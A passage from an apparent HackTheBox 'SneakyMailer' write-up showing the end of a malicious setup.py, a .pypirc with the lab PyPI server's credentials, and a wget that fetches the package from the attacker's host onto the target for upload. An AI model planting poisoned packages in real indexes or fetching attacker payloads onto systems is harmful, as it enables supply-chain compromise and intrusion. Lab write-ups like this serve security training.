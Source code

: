             f.close()
    except Exception as e:
            pass
    setuptools.setup(
    name="example-pkg3", # Replace with your own username
    version="0.0.1",
    author="Example Author",
    author_email="author@example.com",
    description="A small example package",
    long_description="",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
    classifiers=[
    "Programming Language :: Python :: 3",
    "License :: OSI Approved :: MIT License",
    "Operating System :: OS Independent",
    ],
    )
    ```
    #### .pypirc
    ```bash
    kali@kali:~/Desktop/htb/sneaky$ cat .pypirc
    [distutils]
    index-servers =
      local

    [local]
    repository: http://pypi.sneakycorp.htb:8080
    username: pypi
    password: soufianeelhaoui
    ```
3. Transfer the files to the system and upload it to `pypi` server using `python3 setup.py sdist register -r local upload -r local`. The `.pypirc` file must be in the directory specified by `HOME` env variable. 

```bash
developer@sneakymailer:/tmp$ wget http://10.10.14.29:8000/sys.tar.gz
wget http://10.10.14.29:8000/sys.tar.gz
--2020-07-19 23:10:35--  http://10.10.14.29:8000/sys.tar.gz
Connecting to 10.10.14.29:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 20480 (20K) [application/gzip]
Saving to: ‘sys.tar.gz’

sys.tar.gz          100%[===================>]  20.00K  55.0KB/s    in 0.4s

2020-07-19 23:10:36 (55.0 KB/s) - ‘sys.tar.gz’ saved [20480/20480]

developer@sneakymailer:/tmp$ tar -xvf sys.tar.gz
tar -xvf sys.tar.gz
./sysstat-0.1/
./sysstat-0.1/setup.cfg
./sysstat-0.1/README.md
./sysstat-0.1/sysstat/
./sysstat-0.1/sysstat/conf.ini
./sysstat-0.1/sysstat/__main__.py
./sysstat-0.1/sysstat/__init__.py
./sysstat-0.1/sysstat.egg-info/
./sysstat-0.1/sysstat.egg-info/top_level.txt
./sysstat-0.1/sysstat.egg-info/dependency_links.txt
./sysstat-0.1/sysstat.egg-info/PKG-INFO
./sysstat-0.1/sysstat.egg-info/SOURCES.txt
./sysstat-0.1/sysstat.egg-info/requires.txt
```